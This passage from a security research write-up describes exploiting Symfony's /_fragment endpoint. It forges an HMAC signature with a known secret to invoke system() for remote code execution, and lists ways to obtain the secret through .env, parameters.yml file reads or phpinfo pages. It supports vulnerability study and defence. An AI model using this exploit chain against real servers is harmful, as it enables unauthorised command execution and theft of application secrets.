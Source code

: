 Now, visiting `http://localhost:8000/_fragment` yields a `403`. Let's now try and provide a valid signature:

```
$ python -c "import base64, hmac, hashlib; print(base64.b64encode(hmac.HMAC(b'50c8215b436ebfcc1d568effb624a40e', b'http://localhost:8000/_fragment', hashlib.sha256).digest()))"
b'lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm/cmFOh8='
```

By checking out `http://localhost:8000/_fragment?_hash=lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm/cmFOh8=`, we now have a `404` status code. The signature was correct, but we did not specify any request attribute, so Symfony does not find our controller.

Since we can call any method, with any argument, we can for instance pick `system($command, $return_value)`, and provide a payload like so:

```
$ page="http://localhost:8000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull"
$ python -c "import base64, hmac, hashlib; print(base64.b64encode(hmac.HMAC(b'50c8215b436ebfcc1d568effb624a40e', b'$page', hashlib.sha256).digest()))"
b'GFhQ4Hr1LIA8mO1M/qSfwQaSM8xQj35vPhyrF3hvQyI='
```

We can now visit the exploit URL: `http://localhost:8000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull&_hash=GFhQ4Hr1LIA8mO1M/qSfwQaSM8xQj35vPhyrF3hvQyI=`.

Despite the `500` error, we can see that **our command got executed**.

_RCE using fragment_

![1](https://www.ambionics.io/images/symfony-secret-fragment/1.png)

## Finding secrets <a href="#finding-secrets" id="finding-secrets"></a>

Again: all of this would not matter if secrets were not obtainable. Oftentimes, they are. We'll describe several ways of getting code execution without any prior knowledge.

### Through vulnerabilities <a href="#through-vulnerabilities" id="through-vulnerabilities"></a>

Let's start with the obvious: using lower-impact vulnerabilities to obtain the secret.

#### File read <a href="#file-read" id="file-read"></a>

Evidently, a file read vulnerability could be used to read the following files, and obtain `secret`:

* `app/config/parameters.yml`
* `.env`

_As an example, some Symfony debug toolbars allow you to read files._

#### PHPinfo <a href="#phpinfo" id="phpinfo"></a>

On recent symfony versions (3.x), `secret` is stored in `.env` as `APP_SECRET`. Since it is then imported as an environment variable, they can be seen through a `phpinfo()` page.
